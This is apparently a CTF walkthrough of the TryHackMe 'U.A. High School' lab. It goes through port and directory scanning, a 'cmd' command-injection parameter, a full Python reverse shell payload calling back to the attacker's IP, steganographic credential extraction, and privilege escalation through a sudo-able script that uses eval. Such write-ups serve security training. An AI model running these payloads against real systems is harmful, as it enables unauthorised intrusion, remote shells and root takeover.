[*← Back to index*](../../README.md)

# U.A. High School 

This Write-up/Walkthrough provides my process for the **U.A. High School** *(THM)* CTF. Here you will find the solution for the machine. I encourage you to use this as a reference, not a direct solution.

---

## Scan

I started doing the respective fast scan to the IP to obtain only the open ports:

```
nmap -p- --open --min-rate 5000 -sS -Pn -n -vvv 10.114.133.170
  Discovered open port 80/tcp on 10.114.133.170
  Discovered open port 22/tcp on 10.114.133.170
```

```
nmap -p22,80 -sV -sC 10.114.133.170 -oN target.log
  PORT   STATE SERVICE VERSION
  22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
  | ssh-hostkey: 
  |   3072 2d:98:39:10:eb:92:96:bd:a9:5c:4c:2d:cf:95:6c:4d (RSA)
  |   256 7a:8d:85:e1:35:e2:b7:56:9b:d6:4b:93:2a:0e:93:c0 (ECDSA)
  |_  256 8c:56:d0:07:db:7c:84:07:54:ab:f7:33:1c:7f:9d:7f (ED25519)
  80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
  |_http-title: U.A. High School
  |_http-server-header: Apache/2.4.41 (Ubuntu)
  Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
We search for the Ubuntu version on Launchpad, but it doesn't show up.

I found 2 open ports:

  * **22**: SSH
  * **80**: HTTP → Apache httpd 2.4.41

```
whatweb 10.114.133.170
ERROR Opening: https://10.114.133.170 - Connection refused - connect(2) for "10.114.133.170" port 443
http://10.114.133.170 [200 OK] Apache[2.4.41], Country[RESERVED][ZZ], Email[info@yuei.ac.jp], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.114.133.170], Title[U.A. High School]
```

Ok, We are dealing with an Apache server version 2.4.41.

---

## Pasive recognition

I launched the website:


At first glance, there doesn't seem to be much of interest other than a form. Let's start by running a scan with `gobuster`, and then we'll move on to the form in the **Contact** section.

```
gobuster dir -u http://uahighschool.thm -w /usr/share/wordlists/dirb/common.txt -t 100 -x php,txt,html -q -r
.htpasswd            (Status: 403) [Size: 281]
.hta.php             (Status: 403) [Size: 281]
about.html           (Status: 200) [Size: 2542]
admissions.html      (Status: 200) [Size: 2573]
.hta                 (Status: 403) [Size: 281]
.htaccess.txt        (Status: 403) [Size: 281]
.htpasswd.php        (Status: 403) [Size: 281]
.htpasswd.txt        (Status: 403) [Size: 281]
.htaccess.html       (Status: 403) [Size: 281]
assets               (Status: 200) [Size: 0]
.hta.txt             (Status: 403) [Size: 281]
.htpasswd.html       (Status: 403) [Size: 281]
.htaccess.php        (Status: 403) [Size: 281]
.hta.html            (Status: 403) [Size: 281]
.htaccess            (Status: 403) [Size: 281]
contact.html         (Status: 200) [Size: 2056]
courses.html         (Status: 200) [Size: 2580]
index.html           (Status: 200) [Size: 1988]
index.html           (Status: 200) [Size: 1988]
server-status        (Status: 403) [Size: 281]
```

Looking at the result, I'm really surprised that the `/assets` path has a length of 0 even though it contains files. Since that's where the pages `.css` file is located. Let's go straight to curl to see what's going on, because the page isn't displaying any content:

```
curl -v http://uahighschool.thm/assets
* Host uahighschool.thm:80 was resolved.
* IPv6: (none)
* IPv4: 10.114.133.170
*   Trying 10.114.133.170:80...
* Established connection to uahighschool.thm (10.114.133.170 port 80) from 192.168.136.26 port 36218 
* using HTTP/1.x
> GET /assets HTTP/1.1
> Host: uahighschool.thm
> User-Agent: curl/8.19.0
> Accept: */*
> 
* Request completely sent off
< HTTP/1.1 301 Moved Permanently
< Date: Tue, 05 May 2026 20:16:39 GMT
< Server: Apache/2.4.41 (Ubuntu)
< Location: http://uahighschool.thm/assets/
< Content-Length: 321curl -v http://uahighschool.thm/assets
* Host uahighschool.thm:80 was resolved.
* IPv6: (none)
* IPv4: 10.114.133.170
*   Trying 10.114.133.170:80...
* Established connection to uahighschool.thm (10.114.133.170 port 80) from 192.168.136.26 port 36218 
* using HTTP/1.x
> GET /assets HTTP/1.1
> Host: uahighschool.thm
> User-Agent: curl/8.19.0
> Accept: */*
> 
* Request completely sent off
< HTTP/1.1 301 Moved Permanently
< Date: Tue, 05 May 2026 20:16:39 GMT
< Server: Apache/2.4.41 (Ubuntu)
< Location: http://uahighschool.thm/assets/
< Content-Length: 321
< Content-Type: text/html; charset=iso-8859-1
< 
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>301 Moved Permanently</title>
</head><body>
<h1>Moved Permanently</h1>
<p>The document has moved <a href="http://uahighschool.thm/assets/">here</a>.</p>
<hr>
<address>Apache/2.4.41 (Ubuntu) Server at uahighschool.thm Port 80</address>
</body></html>
* Connection #0 to host uahighschool.thm:80 left intact
< Content-Type: text/html; charset=iso-8859-1
< 
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>301 Moved Permanently</title>
</head><body>
<h1>Moved Permanently</h1>
<p>The document has moved <a href="http://uahighschool.thm/assets/">here</a>.</p>
<hr>
<address>Apache/2.4.41 (Ubuntu) Server at uahighschool.thm Port 80</address>
</body></html>
* Connection #0 to host uahighschool.thm:80 left intact
```

It redirects us to the same page, but with a slash at the end:

```
curl -v http://uahighschool.thm/assets/
* Host uahighschool.thm:80 was resolved.
* IPv6: (none)
* IPv4: 10.114.133.170
*   Trying 10.114.133.170:80...
* Established connection to uahighschool.thm (10.114.133.170 port 80) from 192.168.136.26 port 49822 
* using HTTP/1.x
> GET /assets/ HTTP/1.1
> Host: uahighschool.thm
> User-Agent: curl/8.19.0
> Accept: */*
> 
* Request completely sent off
< HTTP/1.1 200 OK
< Date: Tue, 05 May 2026 20:17:15 GMT
< Server: Apache/2.4.41 (Ubuntu)
< Set-Cookie: PHPSESSID=retakipb9ft2iterrr2352gcuo; path=/
< Expires: Thu, 19 Nov 1981 08:52:00 GMT
< Cache-Control: no-store, no-cache, must-revalidate
< Pragma: no-cache
< Content-Length: 0
< Content-Type: text/html; charset=UTF-8
< 
* Connection #0 to host uahighschool.thm:80 left intact
```

Something seems off there, this route is executing PHP code for this request, which isn't typical for a static route that's supposed to serve files. Let's fuzz this a bit to see what it returns:

NOTE: You might be wondering, "How do I know if PHP code is being executed?" The answer lies in the headers.

```
gobuster dir -u http://uahighschool.thm/assets/ -w /usr/share/wordlists/dirb/common.txt -t 100 -x php,txt,html,js -q -r
.htaccess            (Status: 403) [Size: 281]
.htpasswd.txt        (Status: 403) [Size: 281]
.hta.txt             (Status: 403) [Size: 281]
.htaccess.txt        (Status: 403) [Size: 281]
.htaccess.php        (Status: 403) [Size: 281]
.htaccess.html       (Status: 403) [Size: 281]
.hta.js              (Status: 403) [Size: 281]
.htaccess.js         (Status: 403) [Size: 281]
.hta.php             (Status: 403) [Size: 281]
.htpasswd.js         (Status: 403) [Size: 281]
.htpasswd.php        (Status: 403) [Size: 281]
.htpasswd.html       (Status: 403) [Size: 281]
.htpasswd            (Status: 403) [Size: 281]
.hta                 (Status: 403) [Size: 281]
.hta.html            (Status: 403) [Size: 281]
index.php            (Status: 200) [Size: 0]
index.php            (Status: 200) [Size: 0]
images               (Status: 403) [Size: 281]
```

We found `index.php` with "Size: 0", this may be running a script. While fuzzing with `ffuf`, I found something very valuable:

```
ffuf -u "http://uahighschool.thm/assets/index.php?FUZZ=whoami" -w /usr/share/wordlists/seclists/Discovery/Web-Content/burp-parameter-names.txt -fs 0 -s
cmd
```

---

## Active recognition

We have a `cmd` parameter that works, it's out attack vector:



It appears to be Base64-encoded:

```
echo "d3d3LWRhdGEK" | base64 -d
www-data
```

I inmediately run `cat /etc/passwd` to list the users, save the output to a `.txt` file and use `grep` to search for the word `bash` to see the users:

```
grep "bash" etc-passwd.txt
root:x:0:0:root:/root:/bin/bash
deku:x:1000:1000:deku:/home/deku:/bin/bash
ubuntu:x:1001:1002:Ubuntu:/home/ubuntu:/bin/bash
```

Great, we have a user named **deku**. I tried to access the flag but I can't do it from here. Next, I'll open a server with Python3 and send a request using `curl` from the vulnerable parameter:

`http://uahighschool.thm/assets/index.php?cmd=curl%20http://192.168.136.26:8008`

```
python3 -m http.server 8008
Serving HTTP on 0.0.0.0 port 8008 (http://0.0.0.0:8008/) ...
127.0.0.1 - - [05/May/2026 23:00:51] "GET / HTTP/1.1" 200 -
10.114.133.170 - - [05/May/2026 23:01:10] "GET / HTTP/1.1" 200 -
```

Great, we can clearly see that if the request is comming through, we'll launch a reverse shell from here:

`http://uahighschool.thm/assets/index.php?cmd=python3%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%22192.168.136.26%22,4444));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import%20pty;%20pty.spawn(%22bash%22)%27`

We're in, let's go straight to the directory where is the flag located.

```
www-data@ip-10-114-133-170:/home/deku$ ls -la
ls -la
total 36
drwxr-xr-x 5 deku deku 4096 Jul 10  2023 .
drwxr-xr-x 4 root root 4096 May  5 18:52 ..
lrwxrwxrwx 1 root root    9 Jul  9  2023 .bash_history -> /dev/null
-rw-r--r-- 1 deku deku  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 deku deku 3771 Feb 25  2020 .bashrc
drwx------ 2 deku deku 4096 Jul  9  2023 .cache
drwxrwxr-x 3 deku deku 4096 Jul  9  2023 .local
-rw-r--r-- 1 deku deku  807 Feb 25  2020 .profile
drwx------ 2 deku deku 4096 Jul  9  2023 .ssh
-rw-r--r-- 1 deku deku    0 Jul  9  2023 .sudo_as_admin_successful
-r-------- 1 deku deku   33 Jul 10  2023 user.txt
```

The flag has only read permissions for the user, let's see what else we can get.

```
www-data@ip-10-114-133-170:/home/deku$ find / -user deku -type f 2>/dev/null
find / -user deku -type f 2>/dev/null
/opt/NewComponent/feedback.sh
/home/deku/.sudo_as_admin_successful
/home/deku/.profile
/home/deku/.bash_logout
/home/deku/.bashrc
/home/deku/user.txt
```

There's a script that can be run in `/opt/NewComponent`

```bash
www-data@ip-10-114-133-170:/opt/NewComponent$ cat feedback.sh
cat feedback.sh
#!/bin/bash

echo "Hello, Welcome to the Report Form       "
echo "This is a way to report various problems"
echo "    Developed by                        "
echo "        The Technical Department of U.A."

echo "Enter your feedback:"
read feedback


if [[ "$feedback" != *"\`"* && "$feedback" != *")"* && "$feedback" != *"\$("* && "$feedback" != *"|"* && "$feedback" != *"&"* && "$feedback" != *";"* && "$feedback" != *"?"* && "$feedback" != *"!"* && "$feedback" != *"\\"* ]]; then
    echo "It is This:"
    eval "echo $feedback"

    echo "$feedback" >> /var/log/feedback.txt
    echo "Feedback successfully saved."
else
    echo "Invalid input. Please provide a valid input." 
fi
```

This is writting to a file in `/var/log/feedback.txt`, but that file is `syslink` to `/dev/null`, so whatever we put there won't do much good.

```
www-data@ip-10-114-133-170:/opt/NewComponent$ ls -l /var/log/feedback.txt
ls -l /var/log/feedback.txt
lrwxrwxrwx 1 root root 9 Jul  9  2023 /var/log/feedback.txt -> /dev/null
```

For now, let's this aside since the information is vague. I was carefully retracing my steps back to where I started and came across the following:

```
www-data@ip-10-114-133-170:/var/www$ ls -la
ls -la
total 16
drwxr-xr-x  4 www-data www-data 4096 Dec 13  2023 .
drwxr-xr-x 14 root     root     4096 Jul  9  2023 ..
drwxrwxr-x  2 www-data www-data 4096 Jul  9  2023 Hidden_Content
drwxr-xr-x  3 www-data www-data 4096 Dec 13  2023 html
```

In the `/var/www` directory, there is a folder named `Hidden_Content` that contains a file named `passphrase`



Esto definitivamente NO es una contraseña de usuario, parece algo más para revelar otros archivos, archivos que como podemos ver en los escaneos con gobuster están en la ruta images de /assets, ¿recuerdan cuando nos había dicho que era 403? ahora podemos acceder desde acá

Definitely this is NOT a user password, it seems to be something else used to reveal other files, files that, as we can see in the `gobuster` scans, are located in the `images` directory under `/assets`. Remember when it used to return a 403 error? Now we can access them from here.




Great, I tried open both images and **oneforall.jpg** doesn't works, it's broken:



I tried to fix its magic bytes, since the extension should be `.jpg`, but the current ones are `.png`



If we go to the following URL, we can see the magic bytes for many files:

https://en.wikipedia.org/wiki/List_of_file_signatures

I used `hexeditor` to edit the magic bytes:



Perfect! We can see the image now, let's go straight to `steghide`:

```
steghide info oneforall.jpg
"oneforall.jpg":
  formato: jpeg
  capacidad: 5,4 KB
�Intenta informarse sobre los datos adjuntos? (s/n) s
Anotar salvoconducto: 
  archivo adjunto "creds.txt":
    tama�o: 150,0 Byte
    encriptado: rijndael-128, cbc
    compactado: si

steghide extract -sf oneforall.jpg
Anotar salvoconducto: 
anot� los datos extra�dos e/"creds.txt".
```

One you've read it, you'll have the SSH service credentials:



```
deku@ip-10-114-133-170:~$ uname -a
Linux ip-10-114-133-170 5.15.0-138-generic #148~20.04.1-Ubuntu SMP Fri Mar 28 14:32:35 UTC 2025 x86_64 x86_64 x86_64 GNU/Linux
deku@ip-10-114-133-170:~$ lsb_release -a
No LSB modules are available.
Distributor ID: Ubuntu
Description:    Ubuntu 20.04.6 LTS
Release:        20.04
Codename:       focal
```

And we found the first flag:



```
deku@ip-10-114-133-170:~$ sudo -l
[sudo] password for deku: 
Matching Defaults entries for deku on ip-10-114-133-170:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User deku may run the following commands on ip-10-114-133-170:
    (ALL) /opt/NewComponent/feedback.sh
```

Perfecto, tenemos acceso a sudo con el script que habíamos descubierto antes. VEamos que podemos hacer con esto. Investigando un poco encontré que podríamos añadir credenciales del usuario deku a sudoers

Great, we have `sudo` access using the script we discovered earlier. Let's see what we can do with this. After doing a little research, I found that we could add the deku user's to the `sudoers` file:



